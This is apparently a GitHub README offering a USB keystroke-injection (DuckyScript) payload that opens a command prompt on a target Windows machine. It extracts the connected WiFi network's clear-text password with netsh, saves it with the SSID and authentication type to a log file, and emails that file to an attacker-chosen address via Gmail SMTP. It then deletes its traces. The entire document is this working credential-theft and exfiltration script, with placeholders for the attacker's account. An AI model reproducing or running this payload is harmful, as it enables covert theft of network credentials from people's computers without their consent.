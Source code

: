 # This payload:
1. Opens CMD
2. Finds the key (password) of the WiFi the target is connected to
3. Saves the SSID, Network type, Authentication and the key to Log.txt
4. And emails Log.txt via gmail

### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send Log.txt to

If you have **any suggestions** please **tell me**.

## **Code**:
* REM Author: Siem
* REM Version: 1
* REM Description: Clear text WiFi key grabber
* DELAY 2000
* WINDOWS d
* REM --> Open cmd
* WINDOWS r
* DELAY 500
* STRING cmd
* ENTER
* DELAY 1000
* REM --> Change directory (you can change this to something else to make less visible)
* STRING cd "%USERPROFILE%\Desktop"
* ENTER
* REM --> Get SSID
* STRING for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "B"') do set SSID=%A
* ENTER
* REM --> Get network type
* STRING netsh wlan show profiles %SSID% | findstr "Network type" | findstr /v "broadcast" | findstr /v "Radio">Temp.txt
* ENTER
* STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" Temp.txt') do set NETTYPE=%A
* ENTER
* REM --> Get authentication
* STRING netsh wlan show profiles %SSID% | findstr "Authentication">Temp.txt
* ENTER
* STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" Temp.txt') do set AUTH=%A
* ENTER
* REM --> Get key
* STRING netsh wlan show profiles %SSID% key=clear | findstr "Key Content">Temp.txt
* ENTER
* STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" Temp.txt') do set KEY=%A
* ENTER
* REM --> Delete Temp.txt
* STRING del Temp.txt
* ENTER
* REM --> Create Log.txt
* STRING echo SSID: %SSID%>>Log.txt & echo Network type: %NETTYPE%>>Log.txt & echo Authentication: %AUTH%>>Log.txt & echo Password: %KEY%>>Log.txt
* ENTER
* REM --> Mail Log.txt
* STRING powershell
* ENTER
* STRING $SMTPServer = 'smtp.gmail.com'
* ENTER
* STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
* ENTER
* STRING $SMTPInfo.EnableSsl = $true
* ENTER
* STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD');
* ENTER
* STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
* ENTER
* STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
* ENTER
* STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
* ENTER
* STRING $ReportEmail.Subject = 'WiFi'
* ENTER
* STRING $ReportEmail.Body = 'The log is attached!' 
* ENTER
* STRING $ReportEmail.Attachments.Add('Log.txt')
* ENTER
* STRING $SMTPInfo.Send($ReportEmail)
* ENTER
* STRING exit
* ENTER
* REM --> Delete Log.txt and exit
* STRING del Log.txt & exit
* ENTER